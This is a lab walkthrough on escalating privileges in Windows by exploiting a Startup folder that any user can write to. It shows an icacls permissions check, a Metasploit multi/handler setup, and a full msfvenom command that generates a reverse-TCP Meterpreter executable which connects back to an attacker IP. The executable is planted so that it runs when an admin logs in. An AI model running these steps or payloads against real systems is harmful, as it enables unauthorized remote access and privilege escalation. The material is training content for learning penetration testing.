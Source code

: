 # ✨ Startup Applications

Startup applications in Windows are programs or scripts that automatically initiate when a user logs into the system. In the context of privilege escalation (privesc), attackers often leverage the execution of malicious code during system startup to elevate their privileges.

<figure><img src="../../../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

### Overview <a href="#lecture_heading" id="lecture_heading"></a>

we are going to use a tool called icalcs.exe

#### `icacls.exe`

* **Purpose:** `icacls.exe` is a command-line utility that allows users to display and modify permissions on objects in the file system.
* **Usage:** Used for viewing or modifying ACLs, which define the permissions users and groups have on a particular file or directory.

**Access Control List (ACL):** A list associated with an object (e.g., file, directory) that specifies the permissions granted or denied to users or groups.

Access Control Lists (ACLs) are a fundamental concept in computer security, specifically in the context of operating systems like Windows. ACLs define permissions and access rights to resources, such as files, folders, or registry keys.

We are going to run this command&#x20;

```
// Some code
```

<figure><img src="../../../../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

* **`icacls.exe`:** This is the executable for the command-line tool that deals with ACLs.
* **`"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`:** This is the path to the Startup folder where programs are launched automatically when a user logs in.

The BUILTIN\Users group is a default Windows security group that includes all user accounts created on the system. When Full Control permissions \<F>  are granted to this group, it means that members of the Users group have complete access and control over the specified resources, such as files, directories, or services.

{% embed url="https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/icacls" %}

<figure><img src="../../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

### Escalation <a href="#lecture_heading" id="lecture_heading"></a>

To gain elevated privileges, head out on your Kali machine, load msfconsole and use the multi/handler:

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse\_tcp
4. In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run

now on another terminal generate the payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.141.112 -f exe -o y.exe
```

* `-p windows/meterpreter/reverse_tcp`: Specifies the payload as a reverse TCP Meterpreter shell for Windows.
* `LHOST=10.10.141.112`: Sets the local host IP address to 10.10.141.112. This is the IP address where the reverse shell will connect back.
* `-f exe`: Specifies the output format as an executable (exe) file.
* `-o y.exe`: Defines the output file as "y.exe."

<figure><img src="../../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

I then made a simple local python server and went on the windows machine to download my file in the startup folder located at :&#x20;

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

<figure><img src="../../../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

Now we are going to simulate a admin login to our machie with the payload injected in the startup programs

Disconnect from the session and launch your msfconsole:

<figure><img src="../../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

Then connect to the box with the TCM account&#x20;

<figure><img src="../../../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

We connect to the rdesktop with admin credentials, the startup payload executes and our meterpreter session returns us a shell.
